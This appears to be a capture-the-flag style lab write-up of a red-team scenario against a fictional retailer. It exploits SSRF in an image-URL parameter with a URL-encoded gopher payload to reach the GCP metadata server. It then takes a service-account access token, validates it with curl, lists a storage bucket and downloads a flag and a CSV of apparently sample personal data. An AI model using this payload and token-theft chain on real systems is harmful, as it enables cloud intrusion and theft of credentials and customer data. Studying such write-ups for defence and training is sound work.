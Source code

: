 ```yaml
---
author: Nithissh S
pubDatetime: 2024-05-11T15:22:00Z
modDatetime: 2024-05-11T09:12:47.400Z
title: GCP Initial Access through SSRF via gopher protocol
slug: gcp-initial-access-gopher-ssrf
featured: true
draft: false
tags:
  - GCP
  - SSRF
  - Gopher
  - Service account 
description:
  The scenario of the lab is that You have recently joined a red team and are on an engagement for the client Gigantic Retail. In scope is their on-premise and cloud environments. As the cloud specialist, you are called upon to get initial access to their infrastructure, starting with an identified IP address.
---
```


## Introduction 

Exploit SSRF with Gopher for GCP Initial Access - A red team engagement scenario involves gaining access to Gigantic Retail's infrastructure. After identifying an IP address (35.226.245.121), exploiting SSRF through the website's image URL functionality leads to access of Google Cloud Platform (GCP) metadata. Constructing a gopher payload and passing it through the URL parameter successfully reveals internal paths and service account information. Accessing the service account token allows further exploration, leading to the discovery of sensitive files like 'flag.txt' and 'user_data.csv' hosted on Google Storage. Retrieving the flag and user data discloses valuable information for the engagement.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

![](../../assets/images/ssrf.png)

 

Exploring further, we also found a shop inside the website where we can buy, checkout and purchase 

 

![](../../assets/images/ssrf-1.png) 

 

But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

![](../../assets/images/ssrf2.png)   

 

Intercepting the request and looking into the source of the website 

 

![](../../assets/images/ssrf3.png) 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

![](../../assets/images/ssrf4.png)  

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

![](../../assets/images/ssrf5.png) 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

![](../../assets/images/ssrf6.png)  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

![](../../assets/images/ssrf7.png) 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

![](../../assets/images/ssrf8.png) 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

![](../../assets/images/ssrf10.png) 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

![](../../assets/images/ssrf11.png) 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

![](../../assets/images/ssrf12.png)  

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```